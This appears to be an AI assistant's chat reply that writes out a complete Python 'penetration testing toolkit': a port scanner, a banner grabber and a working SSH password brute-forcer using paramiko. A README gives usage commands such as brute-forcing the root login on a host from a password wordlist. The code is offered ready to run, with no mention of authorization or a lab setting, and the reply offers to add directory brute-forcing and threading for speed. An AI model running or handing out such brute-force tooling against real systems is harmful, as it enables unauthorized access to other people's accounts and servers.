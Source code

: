 Great! Let’s build a **modular penetration testing toolkit** in **Python**, with multiple tools like:

- Port Scanner  
- Brute Force Tool  
- Service Banner Grabber  
- Vulnerability Scanner (basic)  
- Network Sniffer (optional/advanced)  

We’ll break it into modules, and I’ll also include docstrings and documentation-style comments so it's well-documented and ready for expansion.

---

## 🔧 Toolkit Structure

```
pentest_toolkit/
│
├── main.py
├── scanner/
│   ├── __init__.py
│   ├── port_scanner.py
│   └── banner_grabber.py
│
├── brute/
│   ├── __init__.py
│   └── ssh_brute.py
│
├── utils/
│   ├── __init__.py
│   └── helpers.py
│
└── README.md
```

---

### 📁 `main.py`

This is the entry point.

```python
import argparse
from scanner import port_scanner, banner_grabber
from brute import ssh_brute

def main():
    parser = argparse.ArgumentParser(description="Modular Penetration Testing Toolkit")
    subparsers = parser.add_subparsers(dest='module')

    # Port Scanner
    port_parser = subparsers.add_parser('portscan', help='Run port scanner')
    port_parser.add_argument('target', help='Target IP or hostname')
    port_parser.add_argument('--ports', default='1-1024', help='Port range (e.g., 20-80)')

    # Banner Grabber
    banner_parser = subparsers.add_parser('banner', help='Banner grabbing')
    banner_parser.add_argument('target', help='Target IP')
    banner_parser.add_argument('port', type=int, help='Target port')

    # SSH Brute Force
    brute_parser = subparsers.add_parser('bruteforce', help='Brute-force SSH login')
    brute_parser.add_argument('host', help='Target IP')
    brute_parser.add_argument('user', help='Username')
    brute_parser.add_argument('wordlist', help='Path to password wordlist')

    args = parser.parse_args()

    if args.module == 'portscan':
        port_scanner.scan_ports(args.target, args.ports)
    elif args.module == 'banner':
        banner_grabber.grab_banner(args.target, args.port)
    elif args.module == 'bruteforce':
        ssh_brute.brute_force_ssh(args.host, args.user, args.wordlist)
    else:
        parser.print_help()

if __name__ == "__main__":
    main()
```

---

### 📁 `scanner/port_scanner.py`

```python
import socket
from utils.helpers import parse_ports

def scan_ports(host, ports):
    port_range = parse_ports(ports)
    print(f"[+] Scanning {host} on ports {ports}")
    for port in port_range:
        try:
            sock = socket.socket()
            sock.settimeout(0.5)
            sock.connect((host, port))
            print(f"[+] Port {port} is OPEN")
            sock.close()
        except:
            pass
```

---

### 📁 `scanner/banner_grabber.py`

```python
import socket

def grab_banner(ip, port):
    try:
        sock = socket.socket()
        sock.settimeout(2)
        sock.connect((ip, port))
        banner = sock.recv(1024).decode().strip()
        print(f"[+] Banner from {ip}:{port} --> {banner}")
        sock.close()
    except Exception as e:
        print(f"[-] Failed to grab banner: {e}")
```

---

### 📁 `brute/ssh_brute.py`

```python
import paramiko

def brute_force_ssh(host, username, wordlist_path):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    with open(wordlist_path, 'r') as file:
        for password in file:
            password = password.strip()
            try:
                ssh.connect(host, username=username, password=password, timeout=3)
                print(f"[+] SUCCESS: {username}:{password}")
                return
            except paramiko.AuthenticationException:
                print(f"[-] Failed: {username}:{password}")
            except Exception as e:
                print(f"[!] Error: {e}")
    print("[-] Brute-force complete. No valid credentials found.")
```

---

### 📁 `utils/helpers.py`

```python
def parse_ports(port_str):
    if '-' in port_str:
        start, end = map(int, port_str.split('-'))
        return range(start, end + 1)
    else:
        return [int(port_str)]
```

---

### 📄 `README.md`

```markdown
# Penetration Testing Toolkit 🛠️

A modular Python-based toolkit for penetration testing.

## Modules

- **Port Scanner**: Scans ports on a target host.
- **Banner Grabber**: Retrieves service banners.
- **SSH Brute Forcer**: Brute-forces SSH login using a wordlist.

## Usage

```bash
python main.py portscan 192.168.1.1 --ports 22-80
python main.py banner 192.168.1.1 22
python main.py bruteforce 192.168.1.1 root passwords.txt
```

## Requirements

- `paramiko` for SSH module
```

---

## ✅ Next Steps

Would you like to:

1. Add more modules like a **simple vulnerability scanner** or **HTTP directory brute-forcer**?
2. Package it as a CLI tool with installable options?
3. Convert it to use threads/async for speed?

Let me know how deep you want to go with it!
